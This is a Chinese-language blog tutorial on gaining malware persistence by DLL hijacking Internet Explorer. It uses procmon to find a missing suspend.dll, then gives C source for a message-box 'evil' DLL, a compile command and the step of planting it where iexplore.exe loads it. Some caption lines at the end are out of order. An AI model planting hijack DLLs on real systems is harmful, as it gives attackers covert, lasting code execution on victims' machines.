\newpage
\subsection{恶意软件开发：持久化（第 15 部分）——Internet Explorer（简单的 C++ 示例）}

### internet explorer

{width="80%"}

在我前面的一篇文章中，我写过一个 DLL 劫持的真实世界案例。

这一次，受害者是 Internet Explorer。

你们中的许多人肯定根本不用它，也不太可能特意把它从 Windows 系统中删除。

### 实战示例

和我上一篇文章一样，我们从 Sysinternals 运行 procmon，并设置以下过滤器：

{width="80%"}

如你所见，进程 `iexplore.exe` 缺少好几个 DLL，它们有可能被用于 DLL 劫持。

{width="80%"}

{width="80%"}

例如 `suspend.dll`：

{width="80%"}

我们再去搜索一下其他可能的位置，也许我们有合法的 DLL：

```powershell
cd C:\
dir /b /s suspend.dll
```

{width="80%"}

但如你所见，文件未找到，所以这个 DLL 只被 Internet Explorer 使用。

然后，我准备了一个「恶意」DLL，meow-woof 消息框：

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow-woof!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="80%"}

然后把文件命名为 `suspend.dll`，并放到 Internet Explorer 加载它的目录中：

{width="80%"}

{width="80%"}

最后尝试运行我们的受害应用程序：

{width="80%"}

{width="80%"}

{width="80%"}

关闭弹窗之后，IE 工作正常，没有崩溃：

{width="80%"}

如你所见，它奏效了。

### 结论

我们现在已经通过 IE 实现了持久化。

这就是为什么这篇文章属于持久化类别：只要用户启动 IE，我们的恶意 DLL 就会启动；当他们退出 IE 时，它也会运行。

你甚至不需要安装或删除任何东西。

{width="80%"}

它在 Windows 11 x64 上同样有效：

尽管在 2022 年不太可能有人会启动 IE，你同意吗？

作为一名 Windows 漏洞猎人，如果你想在操作系统本身上发现权限提升漏洞，你通常会希望从一张白纸开始，也就是一个干净安装的 Windows。

我不知道野外是否有任何 APT 使用过这种战术和技巧，但我希望这篇文章能让蓝队成员了解这个有趣的技巧（尤其是在开发软件时），并为红队成员的武器库增添一件武器。

这篇文章是我自己对一个有趣的恶意软件持久化技巧的研究结果：通过 Internet Explorer 实现持久化。

然后运行 Internet Explorer：

编译我们的恶意 DLL：

完美！=..=

给我亲爱的 Windows 爱好者们一个惊喜。
